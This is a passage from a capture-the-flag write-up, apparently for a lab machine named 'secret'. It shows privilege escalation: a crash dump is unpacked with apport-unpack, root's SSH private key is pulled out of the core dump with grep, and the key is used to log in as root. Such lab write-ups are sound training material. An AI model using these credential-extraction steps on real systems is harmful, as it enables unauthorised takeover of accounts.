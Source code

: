 We can see _opt_count.1000.crash, dumped data of /etc/shadow.



To unpack the crash report,

```
dasith@secret:/var/crash$ apport-unpack _opt_count.1000.crash /var/crash/ssh
dasith@secret:/var/crash$ ls
_opt_count.1000.crash  report  ssh
dasith@secret:/var/crash$ cd ssh
dasith@secret:/var/crash/ssh$ ls
Architecture  DistroRelease        ProblemType  ProcEnviron  Signal
CoreDump      ExecutablePath       ProcCmdline  ProcMaps     Uname
Date          ExecutableTimestamp  ProcCwd      ProcStatus   UserGroups

```





We can find the content of ssh key in CoreDump. That can be extracted from the file by,

```
dasith@secret:/var/crash/ssh$ grep BEGIN out -A37 > root_key
```



Got the private key of root, now we can login using the key,

```
dasith@secret:/var/crash/ssh$ ssh -i root_key root@secret
```

Login success and can find the root flag in the home directory.


